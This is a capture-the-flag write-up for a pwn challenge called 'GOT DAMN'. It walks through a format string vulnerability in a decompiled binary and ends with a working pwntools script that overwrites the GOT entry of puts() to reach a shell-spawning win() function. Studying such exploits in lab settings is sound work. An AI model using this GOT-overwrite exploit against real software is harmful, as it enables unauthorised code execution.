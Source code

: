 # GOT DAMN!!!!!!!!

I didn't solve any of the pwn challenges. Very skill issue indeed but that's okay it'll take more than that to bring me down muehehehe

I also f'ked up on solving this challenge because it seemed so similar to a chall i encounter previously but it wasn't what I thought it was....basically I ikut jalan sesat&#x20;

We are given the binary with the following protections:

```
❯ checksec chall     
    
[*] '/home/mfkrypt/bbctf/pwn/got-damn/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Decompiling it in `main()` , I renamed some variables

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined buffer1 [32];
  char buffer2 [328];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  initialize();
  puts("Welcome to this GOTDamn \'leave a message\' system");
  printf("Enter your name: ");
  read(0,buffer1,24);
  printf("Enter your message: ");
  read(0,buffer2,320);
  puts("Thank you");
  printf("Mr/Ms %s",buffer1);
  printf(buffer2);
  puts("Your message will be pass to the administrator");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

There is also a `win()` function that gives us a shell which we can use to return to

```c
void win(void)

{
  system("/bin/sh");
  return;
}
```

We can clearly see a format string vuln in `main()`:

```c
printf(buffer2)
```

If we try to input `%p` it will print the address of the stack

<figure><img src="../../../.gitbook/assets/image (854).png" alt=""><figcaption></figcaption></figure>

Inputting multiple `%p` 's will print the addresses of the stack contents including the buffer which is where our input resides

<figure><img src="../../../.gitbook/assets/image (855).png" alt=""><figcaption></figcaption></figure>

At the 10'th argument, we can notice it starts printing our buffer contents. `%p` in hex is `0x2570` . Because the protections for RELRO were "Partial". We can use it to overwrite the GOT (Global Offset Table) by overwriting the GOT entry of `puts()` with the address of the `win()` function. For some reason, `printf()` doesn't work....

To build the script we will use pwntools' built-in function for format string exploits:

```python
fmtstr_payload(offset, writes)
```

Now we can build the script easily

```python
from pwn import *

elf = context.binary = ELF('./chall', checksec=False)
context.log_level = 'info'

io = process()

offset = 10

io.sendlineafter(b'Enter your name: ', b'kambing')


payload = fmtstr_payload(10, {elf.got['puts'] : elf.sym['win']})


io.sendlineafter(b'Enter your message: ', payload)
io.clean()
io.interactive()
```

```
❯ python3 script.py

[+] Starting local process '/home/mfkrypt/bbctf/pwn/got-damn/chall': pid 630127
[*] Switching to interactive mode
$ whoami
mfkrypt
```

